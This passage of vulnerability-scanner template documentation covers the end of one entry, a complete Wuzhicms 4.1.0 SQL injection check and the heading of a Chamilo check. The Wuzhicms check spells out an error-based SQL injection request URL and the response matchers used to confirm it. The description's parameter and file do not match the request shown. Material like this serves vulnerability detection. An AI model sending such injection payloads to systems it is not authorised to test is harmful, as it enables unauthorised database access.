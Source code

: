 ### Matchers

**Type - word**

- part - body
- words
  1. Admin user
  2. Dashboard
  3. CVMS
- condition - and

**Type - status**

- status
  1. 200

---

# Wuzhicms 4.1.0 - SQL Injection

## Description

- Wuzhicms 4.1.0 contains a SQL injection vulnerability via the grouppid parameter of /coreframe/app/member/admin/group.php. An attacker can possibly obtain sensitive information from a database, modify data, and execute unauthorized administrative operations in the context of the affected site.

- severity - critical
- tags - wuzhicms,sqli

## Requests

- Method - GET

### URL

- {{BaseURL}}/api/sms_check.php?param=1%27%20and%20updatexml(1,concat(0x7e,(SELECT%20md5({{num}})),0x7e),1)--%20

### Matchers

**Type - word**

- part - body
- words
  1. c8c605999f3d8352d7bb792cf3fdb25

**Type - status**

- status
  1. 200

---

# Chamilo 1.11.14 - SQL Injection
